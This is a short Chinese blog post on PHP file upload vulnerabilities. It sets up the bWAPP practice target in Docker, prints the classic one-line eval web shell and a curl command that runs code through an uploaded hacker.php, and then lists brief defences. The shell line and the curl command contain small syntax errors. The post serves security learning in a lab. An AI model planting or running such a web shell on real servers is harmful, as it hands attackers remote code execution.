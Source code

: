 ```yaml
---
title: "PHP 文件上传漏洞"
date: 2021-08-17T13:48:22+08:00
draft: false
author: LYR
---
```




## PHP 文件上传漏洞原理





我这里用 vagrant 启动本地的虚拟机，然后用 docker 安装靶机实验环境





```docker
docker pull registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
docker run -d -p 0.0.0.0:80:80 registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
```



然后访问 http://127.0.0.1:80/install.php ， 对 bwapp 进行安装



```docker
docker container list -a

```

查看正在运行的容器



### 一句话漏洞原理



PHP里面有个 eval 函数， 非常的危险， 我上传 一个 .php 文件到服务器，然后访问这个 文件， 服务器就会执行



```php
<? php @eval($_POST['hacker']);?> 
```

```shell
curl -d "hacker="getcwd();" http://images/hacker.php
```



1. get_current_user 获取当前 PHP脚本的用户
2. getcwd 获取脚本当前的目录









解决文件上传漏洞



1. 白名单优于黑名单
2. 使用安全函数编程
3. 熟悉 部署环境的OS

















